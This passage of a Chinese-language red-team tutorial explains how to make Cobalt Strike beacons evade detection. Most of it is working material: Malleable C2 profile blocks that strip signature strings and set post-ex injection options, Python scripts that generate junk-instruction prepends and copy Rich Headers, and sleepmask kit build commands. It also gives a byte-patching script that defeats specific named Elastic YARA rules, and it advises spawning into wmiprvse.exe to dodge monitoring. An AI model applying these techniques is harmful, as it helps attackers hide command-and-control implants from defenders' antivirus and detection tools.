因此,让我们稍微修改下profile文件, 以此删除这类可疑的字符串, 但是这并没有多大得帮助, 因为还有其他字符串仍然会在堆中找到

```
strrep "msvcrt.dll" "";
strrep "C:\\Windows\\System32\\msvcrt.dll" "";
```


## 使用Clang++来解决上述问题

由于每个编译器都有其独特的优化策略和特性，使用不同的编译器可以生成具有不同特征的可执行文件。这种独特性可能使得这些文件更难以被安全检测系统识别，从而实现绕过检测

例如，Clang++提供了多种优化标志，可以帮助减小编译后代码的大小，而GCC(G++)则以其高性能优化能力而闻名

以下是在MingW中编译和在Clang++中编译的beacon对比图，可以发现Clang++编译的beacon明显字符串少了许多

	


再次使用ThreatCheck检测Clang++编译的beacon，没有检测到字符串msvcrt.dll

> Clang下载地址：https://github.com/mstorsjo/llvm-mingw/releases

		


## 删除堆中的字符串

尽管我们在Profile文件中启用了obfuscate功能，但是仍然能够在Beacon堆中检测到大量的字符串

	


因此我们需对Profle文件进行一些修改，添加以下选项删除上图所见的所有字符串

```
transform-x64 {
    prepend "\x90\x90\x90\x90\x90\x90\x90\x90\x90"; # prepend nops
    strrep "This program cannot be run in DOS mode" ""; # Remove this text
    strrep "ReflectiveLoader" "";
    strrep "beacon.x64.dll" "";
    strrep "beacon.dll" ""; # Remove this text
    strrep "msvcrt.dll" "";
    strrep "C:\\Windows\\System32\\msvcrt.dll" "";
    strrep "Stack around the variable" "";
    strrep "was corrupted." "";
    strrep "The variable" "";
    strrep "is being used without being initialized." "";
    strrep "The value of ESP was not properly saved across a function call.  This is usually a result of calling a function declared with one calling convention with a function pointer declared" "";
    strrep "A cast to a smaller data type has caused a loss of data.  If this was intentional, you should mask the source of the cast with the appropriate bitmask.  For example:" "";
    strrep "Changing the code in this way will not affect the quality of the resulting optimized code." "";
    strrep "Stack memory was corrupted" "";
    strrep "A local variable was used before it was initialized" "";
    strrep "Stack memory around _alloca was corrupted" "";
    strrep "Unknown Runtime Check Error" "";
    strrep "Unknown Filename" "";
    strrep "Unknown Module Name" "";
    strrep "Run-Time Check Failure" "";
    strrep "Stack corrupted near unknown variable" "";
    strrep "Stack pointer corruption" "";
    strrep "Cast to smaller type causing loss of data" "";
    strrep "Stack memory corruption" "";
    strrep "Local variable used before initialization" "";
    strrep "Stack around" "corrupted";
    strrep "operator" "";
    strrep "operator co_await" "";
    strrep "operator<=>" "";
}
```


## 修改shellcode的前置硬编码

我们可以在shellcode的开头添加一些汇编指令，为了避免在执行beacon时出现奔溃情况，我们必须采用不会影响shellcode执行的垃圾汇编指令(俗称"花指令")。

比如采用一些简单的“0x90”(Nop)指令，或者更好的是，使用如下汇编指令列表的动态组合

```
inc esp
inc eax
dec ebx
inc ebx
dec esp
dec eax
nop
xchg ax,ax
nop dword ptr [eax]
nop word ptr [eax+eax]
nop dword ptr [eax+eax]
nop dword ptr [eax]
nop dword ptr [eax]
```


我们可以使用一个简单的python脚本，来实现对上述汇编指令的随机组合

```python
import random

# Define the byte strings to shuffle
byte_strings = ["40", "41", "42", "6690", "40", "43", "44", "45", "46", "47", "48", "49", "", "4c", "90", "0f1f00", "660f1f0400", "0f1f0400", "0f1f00", "0f1f00", "87db", "87c9", "87d2", "6687db", "6687c9", "6687d2"]

# Shuffle the byte strings
random.shuffle(byte_strings)

# Create a new list to store the formatted bytes
formatted_bytes = []

# Loop through each byte string in the shuffled list
for byte_string in byte_strings:
    # Check if the byte string has more than 2 characters
    if len(byte_string) > 2:
        # Split the byte string into chunks of two characters
        byte_list = [byte_string[i:i+2] for i in range(0, len(byte_string), 2)]
        # Add \x prefix to each byte and join them
        formatted_bytes.append(''.join([f'\\x{byte}' for byte in byte_list]))
    else:
        # Add \x prefix to the single byte
        formatted_bytes.append(f'\\x{byte_string}')
        
# Join the formatted bytes into a single string
formatted_string = ''.join(formatted_bytes)

# Print the formatted byte string
print(formatted_string)
```


将python脚本代码生成的花指令写入我们的Profile文件中

```
transform-x64 {
        ...
        prepend "\x44\x40\x4B\x43\x4C\x48\x90\x66\x90\x0F\x1F\x00\x66\x0F\x1F\x04\x00\x0F\x1F\x04\x00\x0F\x1F\x00\x0F\x1F\x00";
        ...
}
```


再次生成shellcode时，你会发现前面的字节(MZ头前面所有字节)发生了变化

	


## 修改rich header

在Windows PE文件格式中，`Rich Header`是一个不太为人所知的部分，它位于DOS头和NT头之间。这个头部包含了与编译器和链接器相关的元数据，可以被视为Windows可执行文件构建环境的一个"指纹"

由于Rich Header是一个不会被执行的部分，因此我们可以使用python脚本生成垃圾汇编指令来对其进行填充，python代码如下所示

```py
import random

def generate_junk_assembly(length):
    return ''.join([chr(random.randint(0, 255)) for _ in range(length)])

def generate_rich_header(length):
    rich_header = generate_junk_assembly(length)
    rich_header_hex = ''.join([f"\\x{ord(c):02x}" for c in rich_header])
    return rich_header_hex

#make sure the number of opcodes has to be 4-byte aligned
print(generate_rich_header(100))
```


将生成的花指令复制到Profile文件的Stage块中

```
stage {
    ...
    set rich_header "\x2e\x9a\xad\xf1...";
    ...
}
```

注意：Rich Header 的长度必须是4 字节对齐，否则您将收到以下 OPSEC警告

	


当然，为了使Rich Header看起来更合法，你可以获取真正DLL的Rich Header，以下是获取dll文件RichHeader的python代码：

```python
import pefile
import sys

def extract_rich_header(dll_path):
    try:
        pe = pefile.PE(dll_path)

        # 检查是否存在Rich Header
        if hasattr(pe, 'RICH_HEADER'):
            rich_header_data = pe.get_data(0x80, pe.RICH_HEADER.size)
            return rich_header_data
        else:
            return None
    except Exception as e:
        print(f"Error: {e}")
        return None

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python script_name.py <path_to_dll>")
        sys.exit(1)

    dll_path = sys.argv[1]
    rich_header_content = extract_rich_header(dll_path)

    if rich_header_content:
        shellcode = ''.join([f"\\x{byte:02x}" for byte in rich_header_content])
        print(f"Rich Header shellcode: \"{shellcode}\"")
    else:
        print("Failed to extract Rich Header or Rich Header not found.")
```


# YARA规则绕过

## 加载sleepmask_kit

我们面临的最具挑战性的 YARA 规则之一来自[elastic](https://github.com/elastic/protections-artifacts/blob/main/yara/rules/Windows_Trojan_CobaltStrike.yar)，规则`Windows_Trojan_CobaltStrike_b54b94ac`使用arsenal kit中的sleepmask kit可以轻松绕过。尽管我们的Profile文件启用了`set sleep_mask "true"`，但是这还不足以绕过检测，因为所执行的混淆程序很容易被检测到

为了使用sleepmask kit，请通过`build.sh`生成的CNA脚本文件导入至CobaltStrike中。以下是该脚本的执行参数，第一个参数是sleepmask的版本号；第二个参数是与Sleep有关的Windows Api；第三个函数建议设置为true，以便屏蔽Beacon内存中的明文字符串；第四个参数为系统调用模式，建议设置为`indirect_randomized`

```
bash build.sh 47 WaitForSingleObject true indirect output/folder/
```

	


加载生成的CNA后, 将beacon与yara规则进行匹配,可以发现规则`b54b94ac`已被绕过, 但是还有两条规则需要绕过


## 修改MZ头和PE头

我们先来分析规则`Windows_Trojan_CobaltStrike_1787eef5`，可以清楚发现该规则在匹配MZ头的内容，例如`4D 5A`（MZ头），而我们的shellcode也确实有出现标记的字节


	


幸运的是，可以通过将以下选项适用于Profile文件，使得我们可以更加轻松地修改MZ头，选项值可以是长度为四个字符的任意值	

```
set magic_mz_x64 "OOPS";
```


除了修改MZ头之外，还可以通过以下选项修改PE头，选项值可以是长度为2个字符的任意值

```
set magic_pe "EA";
```


设置此选项后将使beacon不再被检测到 `Windows_Trojan_CobaltStrike_1787eef5`	


通过查看原始shellcode，我们可以发现MZ头和PE头都被修改成设置的选项值了

		


## 动态调试修改硬编码

接下来让我们绕过最后一个规则`Windows_Trojan_CobaltStrike_f0b627fc`，其对应的匹配字节是：`$beacon_loader_x64 = { 25 FF FF FF 00 3D 41 41 41 00 75 [5-10] 25 FF FF FF 00 3D 42 42 42 00 75 }`

我们可以确认该规则也确实存在于shellcode中

	


对规则的硬编码进行反汇编，我们得到以下结果：

```
25 FF FF FF 00       and    eax,0xffffff
3D 41 41 41 00       cmp    eax,0x414141
75 ??                jne    <relative offset based on next byte, range could be 5-10 bytes>
25 FF FF FF 00       and    eax,0xffffff
3D 42 42 42 00       cmp    eax,0x424242
75 ??                jne    <relative offset based on next byte>
```


将shellcode放到x64debug去调试，并定位至规则所在地址。在下图可以看到，经过jne指令时，因为ZF位被设置为1，所以不会进行跳转，而ZF位的值是由`cmp eax, 414141`所决定的。简单来说当eax的值为414141时，jne指令就不会发生跳转


我们将指令`and eax,0xFFFFFF`更改为`mov eax, 0x414141`，可以发现jne指令仍然不会发生跳转，这是因为这两条指令的作用几乎是相同的


我们可使用以下python代码来实现字节替换

```python
def replace_bytes(input_filename, output_filename):
    search_bytes      = b"\x25\xff\xff\xff\x00\x3d\x41\x41\x41\x00"
    replacement_bytes = b"\xb8\x41\x41\x41\x00\x3D\x41\x41\x41\x00"
  
    with open(input_filename, "rb") as input_file:
        content = input_file.read()
        modified_content = content.replace(search_bytes, replacement_bytes)
    
    with open(output_filename, "wb") as output_file:
        output_file.write(modified_content)
    
    print(f"Modified content saved to {output_filename}.")

# Example usage
input_filename = "beacon_x64.bin"
output_filename = "output.bin"
replace_bytes(input_filename, output_filename)
```


使用yara扫描新生成的二进制文件，可以发现规则`Windows_Trojan_CobaltStrike_f0b627fc`没有被检测到


# 改善post-ex

`post-ex`块是Cobalt Strike Profile文件中的一个配置区段，主要用于控制和配置后渗透（post-exploitation）阶段的行为和特性。从Cobalt Strike的4.5版本开始，`post-ex`块允许用户在具有显式注入选项的情况下，将特定功能注入到现有的进程中。它提供了针对`post-ex DLLs`的一些操作安全（OPSEC）选项，例如在进行屏幕截取、按键记录、凭证抓取或目标扫描等后渗透任务时，可以考虑将功能注入到当前的Beacon进程中

我们采用如下配置来提升CS的后渗透能力：

```
post-ex {
    set pipename "Winsock2\\CatalogChangeListener-###-0";
    set spawnto_x86 "%windir%\\syswow64\\wbem\\wmiprvse.exe -Embedding";
    set spawnto_x64 "%windir%\\sysnative\\wbem\\wmiprvse.exe -Embedding";
    set obfuscate "true";
    set smartinject "true";
    set amsi_disable "false";
    set keylogger "GetAsyncKeyState";
    #set threadhint "module!function+0x##"
}
```

为了避免检测，我们需关闭`threadint`和`amsi`，因为这些是主要的内存IOC(Indicator of Compromise，指系统被攻击或被恶意软件感染的迹象)

通常配置使用svchost.exe作为要生成的进程，但因为它曾经是恶意软件和攻击者的热门目标，所以安全工具对svchost.exe的活动加强了监控。一个非常好的替代方案是使用wmiprvse.exe，它是WMI服务的一部分，因为它与系统管理和查询任务有关，可能会产生大量的日志，所以一些监控工具(如Sysmon和其他SIEMs)可能会选择排除或减少对此进程的监控，以避免日志爆炸和性能下降


# 参考链接

- https://codex-7.gitbook.io/codexs-terminal-window/red-team/cobalt-strike/evading-hunt-sleeping-beacons
- https://whiteknightlabs.com/2023/05/02/masking-the-implant-with-stack-encryption/
